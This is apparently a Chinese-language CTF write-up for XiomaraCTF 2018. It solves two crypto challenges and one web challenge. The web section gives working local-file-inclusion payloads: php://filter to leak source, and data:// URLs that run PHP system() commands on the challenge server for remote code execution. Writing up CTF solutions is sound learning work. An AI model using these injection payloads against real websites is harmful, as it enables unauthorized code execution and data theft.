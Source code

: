 ```yaml
---
title: XiomaraCTF 解題
tags:
    - CTF
    - 解題
    - 筆記
categories:
    - Write-up
    - Xiomara
    - 2018
---
```


HackMD網址：https://hackmd.io/s/B1grPrzOf

有些水題就不寫writeup了，交給其他人吧 (´・ω・`)

# Crypto - Custom HEN

密文：
```
082_336_88_167755403
```

題目跟你說，密文的產生方式是：
```
## encryption
FLAG -> HEN_Cipher -> alphametic puzzle -> CipherText
```

所以我們只要逆向這個加密過程就好了：
```
## decryption
FLAG <- HEN_Cipher <- alphametic puzzle <- CipherText
```


先用 [alphametic puzzle solver](http://www.tkcs-collins.com/truman/alphamet/alpha_solve.shtml) 把每個數字代表的英文找出來：

![](https://i.imgur.com/I8IEJtQ.png)

得到：
![](https://i.imgur.com/aII59cu.png)

將密文替換：
```
082_336_88_167755403 = CZF_KKU_ZZ_GUYYPPNCK
```


:::danger
HEN的加密模式：
左移偏移量 = ((字母的位置) * (字串總長度)) mod 26
注意！字串總長度不包含底線！
:::

:::success
HEN的解密方法：
右移偏移量 = ((字母的位置) * (字串總長度)) mod 26
不過首先要解決的就是 'A' 往右偏移1位如何到 'Z'
:::

這邊我寫了 python script 作解密，分別算出每個字母的偏移量與明文。

字母左移的部份我採用 ASCII 來作減法運算。

{% codeblock lang:python %}
#! /usr/bin/python
# -*- coding: utf-8 -*-
# vim:fenc=utf-8
# Copyright © 2018 howpwn <finn79426@gmail.com>


Ciphertext = 'CZFKKUZZGUYYPPNCK' # remove the "_"

plaintext_size = len(Ciphertext)

left_move = []
plaintext = ""

print "Ciphertext: {0}".format(Ciphertext)

print "Each alphabet left shift is:"
for i in range(0, plaintext_size):
    left_move.append(((i+1) * plaintext_size) % 26)
    print "alphabet[{0}] need {1} step".format(i+1, left_move[i])
print "----------"

print "Counting the left shift alphabet is what..."
for i in range(0, plaintext_size):
    temp = ord(Ciphertext[i]) + left_move[i]
    if temp > 90: # 如果 temp 大於 ASCII 的 "Z"，我們就必須將它檢掉 26 讓它回到 A 開始繼續往右移
        temp -= 26
    plaintext += chr(temp)
    print plaintext
print "----------"
{% endcodeblock %}

(PS:這樣code好亂Orz...我應該用function去實作的...)

執行完腳本後會得到 "THEARSOFDIDUCTION"，這個時候把底線與FLAG頭加上去就是正確答案了。

xiomara{THE\_ARS\_OF_DIDUCTION}

# Crypto - Giveaway

可以秒解。


1. N 太大，factordb不能分解出p、q
2. e 很小

{% codeblock lang:python %}
#! /usr/bin/python
# -*- coding: utf-8 -*-
# vim:fenc=utf-8
# Copyright © 2018 howpwn <finn79426@gmail.com>

from libnum import n2s
from gmpy2 import iroot
e = 3
n = 481198641867289038243532927701020249905433964052522187774270437592775342143784702291483427578470414194602731404343532513840453569385856109993166637836189117235549985093499643724363002153995995953731212190003813128852867940536928597102669895224512199695772684398151784349020282852823384810308548307944122748283
c = 2039130155866184490894181588949291569587424373754875837330412835527276040280846677481047284126316137541961805207979583672570357348995401556991229785828117383170279052532972654304372432603436204862621797


m = iroot(c,e)
print n2s(m[0])
{% endcodeblock %}

由於e太小、N太大，導致於：
c = $m^{e}$ mod n 
&nbsp;&nbsp;&nbsp;= $m^{e}$

也就是說，如果要解密m
m = $\sqrt[e] {c}$

xiomara{4y3_4y3_cryp70_6uy!}


# Web - Flag Locker

這網站有LFI漏洞

可以用 php://filter 看到該網頁的源碼 (記得base64 decode)

```
http://103.5.112.91:1234/?locker=php://filter/convert.base64-encode/resource=why
```
不過依然找不到 FLAG，所以我們必須要能夠 RCE 才能找出FLAG：

```
http://103.5.112.91:1234/?locker=data://text/plain,<?php system("ls -al")?>;
```

最後，其實FLAG是在 index.php 裡面
```
http://103.5.112.91:1234/?locker=data://text/plain,<?php system("cat index.php")?>;
```

xiomara{s0metim3s_fl@g_c@n_b3_d3cl@red_@s_v@riable}
